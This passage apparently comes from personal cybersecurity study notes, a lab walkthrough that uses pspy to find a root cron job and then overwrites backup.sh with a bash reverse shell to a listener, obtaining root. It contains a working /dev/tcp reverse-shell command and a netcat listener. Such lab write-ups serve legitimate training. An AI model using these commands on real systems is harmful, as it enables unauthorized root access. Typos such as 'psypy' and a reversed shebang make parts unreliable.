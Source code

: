 [psypy](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/tools/actions-on-objective/psypy.md) is a tool developed by DominicBreuker on GitHub. It allows us to monitor linux processes _without root permissions_ w/ live updates. Other linux tools like `top`, `lsof`, and `ps aux` can also be used.

##### Usage

To use psypy as Grimmie we need to get it on the target machine. To do this, first we need to download and install it from the [psypy repo](https://github.com/DominicBreuker/pspy) on our own machine, then serve it using [HTTP](https://github.com/TrshPuppy/obsidian-notes/blob/main/networking/protocols/HTTP.md).

Once it's served, we can `cd` into `/tmp` where `backup.zip` is and use `wget` to download it on the target machine. Now, change the permissions of `pspy64` so we can execute it using `chmod +x pspy64`. Now we can run it:

```bash
./psypy64
#####
## PLACEHOLDER
##
##
##
```

Scanning the output, we can see that `backup.sh` is being ran every minute.

### 2nd RevShell

Now that we've verified that `backup.sh` is being executed, we can manipulate that to get another shell, but this time _with root permissions and access_.

#### Our bash script:

A simple script to achieve a shell using [bash](https://github.com/TrshPuppy/obsidian-notes/blob/main/coding/languages/bash.md) is the following:

```bash
!#/bin/bash

bash -i >& /dev/tcp/10.0.2.4/44445 0>&1
```

Use `nano` to edit `backup.sh`, get rid of the original code and replace it with this shell code. _Before saving the file_ make sure you have another instance of [netcat](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/tools/exploitation/netcat.md) up and listening to the correct port.

Once you save the file, it should get executed w/i the next 2 minutes, and on your listener you should see:

```bash
nc -lvnp 44445
listening on [any] 44445 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.15] 34634
bash: cannot set terminal process group (18009): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~#          # <-----------
```
